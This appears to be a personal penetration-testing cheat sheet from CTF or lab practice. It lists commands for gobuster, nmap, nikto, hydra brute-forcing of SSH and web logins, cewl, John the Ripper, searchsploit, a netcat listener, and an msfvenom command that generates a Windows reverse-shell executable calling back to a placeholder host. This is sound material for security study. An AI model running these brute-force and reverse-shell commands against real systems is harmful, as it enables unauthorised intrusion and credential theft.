 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV MACHINE_IP
```
Check for vulns also:
```console
nmap -sV -sC --script vuln MACHINE_IP
nmap -sV -vv --script vuln  MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

## john

Brute force hash pwd

```console
john --wordlist=greedykeys.txt hash.txt
```

## searchsploit

Search ExploitDB

```console
searchsploit fuel cms
```